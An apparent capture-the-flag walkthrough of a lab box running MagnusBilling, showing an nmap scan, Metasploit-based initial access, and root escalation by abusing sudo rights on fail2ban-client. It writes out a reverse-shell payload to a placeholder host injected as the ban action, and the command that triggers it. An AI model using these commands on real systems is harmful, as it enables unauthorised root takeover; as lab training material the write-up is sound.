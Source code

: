 
![](https://i.imgur.com/ig6eZF1.png)

Another night to pull up againn. We go againnnnn!!!!!

Ion know what this box is all about what we are about to find out innit 

As we know the first thing is to get our nmap rolling 

```
nmap -p- -T4 -v --min-rate=1000 -sCV 10.10.228.118 -oN nmap.txt -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 21:09 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating SYN Stealth Scan at 21:09
Scanning biling.thm (10.10.228.118) [65535 ports]
Discovered open port 22/tcp on 10.10.228.118
Discovered open port 80/tcp on 10.10.228.118
Discovered open port 3306/tcp on 10.10.228.118
Increasing send delay for 10.10.228.118 from 0 to 5 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.228.118 from 5 to 10 due to max_successful_tryno increase to 6
Warning: 10.10.228.118 giving up on port because retransmission cap hit (6).
SYN Stealth Scan Timing: About 41.60% done; ETC: 21:10 (0:00:44 remaining)
Discovered open port 5038/tcp on 10.10.228.118
Completed SYN Stealth Scan at 21:11, 87.03s elapsed (65535 total ports)
Initiating Service scan at 21:11
Scanning 4 services on biling.thm (10.10.228.118)
Completed Service scan at 21:11, 7.01s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.228.118.
Initiating NSE at 21:11
Completed NSE at 21:11, 5.33s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 1.07s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Nmap scan report for biling.thm (10.10.228.118)
Host is up (0.23s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://biling.thm/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.13 seconds
           Raw packets sent: 86086 (3.788MB) | Rcvd: 76850 (3.255MB)


```


Lots of endpoints are located hereee, this is looking good alreadyyyy

From the nmap scan, we discovered that they are 3 ports opened (22, 80, 3395, 5038)

Let us start our directory search too while enumerating the website

![](https://i.imgur.com/qDY7x28.png)


Now over to the website

![](https://i.imgur.com/wBc6AO8.png)


Let us go back to our directory fuzzing

![](https://i.imgur.com/9bCVgpV.png)

From there we were able to find the endpoint /robots.txt which still takes us to the login page

So, let us try to get another thing

Let us try enumerating the mysql

Enumerating this left us with no luck either.......

So I just went ahead googling to see if there is and exploit for magnus billing CMS. Lo and behold there is an exploit for that...

We are going to be using metasplot this time around

![](https://i.imgur.com/Rc91tj1.png)


Bankaiii, we have initial access as seen below

![](https://i.imgur.com/mXjjRs4.png)

Let us now go to find user flag

![](https://i.imgur.com/GZyX84g.png)

Our work is halfdone, now let us go all in for the root flag

So, now in this part root is kinda trickyyyyy but imma still explain to the best of my knowledge

So after getting user flag, the first thing I always do is to try `sudo -l` to have a list of things that this user can do and this time was not in any way different

After running the command, the following was that I got

```
Matching Defaults entries for asterisk on Billing: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

Runas and Command-specific defaults for asterisk: Defaults!/usr/bin/fail2ban-client !requiretty 

User asterisk may run the following commands on Billing: (ALL) NOPASSWD: /usr/bin/fail2ban-client

```

From here all I knew was to abuse fail2ban to pop root shell and https://juggernaut-sec.com/fail2ban-lpe/ was the blog that helped me out

With all of this information, I crafted the following command:
```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"

```

This command modifies the `actionban` rule for the `sshd` jail, replacing the default IP banning action with a reverse shell payload. Normally, Fail2Ban executes the `iptables-multiport` action to ban IP addresses attempting brute-force attacks. However, by injecting my command, I ensure that instead of banning an IP, Fail2Ban will execute my reverse shell.

After modifying the `actionban` rule, I set up a listener on my machine to catch the reverse shell connection.

Lastly, I executed the following command:
```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This command is typically used to manually ban an IP address using Fail2Ban. However, since I had previously modified the `actionban` rule to execute my reverse shell payload instead of banning an IP, running this command triggered the exploit. I used `127.0.0.1` because it is the **localhost IP address**, meaning the machine essentially "bans itself." Since Fail2Ban is configured to execute the `actionban` command whenever an IP is banned, triggering the ban on `127.0.0.1` ensures that the malicious command runs immediately on the same system without external dependencies.

BecauseFail2Ban runs with elevated privileges, the shell was spawned with **root** access, successfully granting me full control over the system.

![](https://i.imgur.com/posPY62.png)

With the root shell successfully obtained, I navigated to the `/root` directory and accessed the final flag!

![](https://i.imgur.com/VlS9ATs.png)

